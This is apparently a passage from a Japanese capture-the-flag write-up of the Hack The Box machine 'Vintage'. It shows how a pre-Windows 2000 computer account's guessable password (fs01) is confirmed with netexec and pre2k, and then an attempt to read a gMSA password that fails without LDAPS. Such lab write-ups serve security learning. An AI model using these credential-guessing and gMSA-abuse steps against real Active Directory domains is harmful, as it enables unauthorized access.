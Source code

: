 これまでの列挙から、まずはFS01の初期アクセスが必要になってきます。

# 初期アクセス

Active Directoryでは、管理者はホストをドメインに参加させる前に、ホストが適切な組織単位またはセキュリティグループに属していることを確認するために、コンピュータアカウントをステージングすることがよくあります。ステージングされたコンピュータアカウントがWindows2000以前と互換性があるように構成されている場合、すべて小文字ホスト名と一致するパスワードが設定されます。例えば、ホスト名が `TEST$` だとすると、パスワードは `test` となります。Windows2000以前と互換性があるように構成されていないコンピュータアカウントのパスワードはランダムに生成されます。

今回は `FS01$` が `Pre-Windows 2000 Compatible Access` 属しているのでFS01のパスワードは `fs01` であると予測されます。

netexecで確認すると、パスワードが `fs01` でログインできることが分かりました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -u 'FS01$' -p 'fs01' -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\FS01$:fs01
```

他にも、[pre2k](https://github.com/garrettfoster13/pre2k)というWindows2000以前のコンピュータオブジェクトの存在を照会するツールがあるのでこれを使用するのもいいと思います。
```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -inputfile users.txt

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @garrfoster
                                            @Tw1sm          

[10:43:08] INFO     Testing started at 2025-01-13 10:43:08
[10:43:08] INFO     Using 10 threads
[10:43:09] INFO     VALID CREDENTIALS: vintage.htb\FS01$:fs01     
```

これでFS01を制御することができます。

# ReadGMSAPasswordの悪用

この権限を悪用するにはNetExecを使うことができます。NetExecには `--gmsa` オプションがあり、これによりgmsaパスワードを読み取ることができます。しかし、このオプションにはldapsが使用されます。このマシンではldapsが動いていないのでこれは機能しませでした。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec ldap dc01.vintage.htb -u FS01 -p 'fs01' -k --gmsa
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] LDAPs connection to ldaps://dc01.vintage.htb failed - (104, 'ECONNRESET')
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] Even if the port is open, LDAPS may not be configured
```
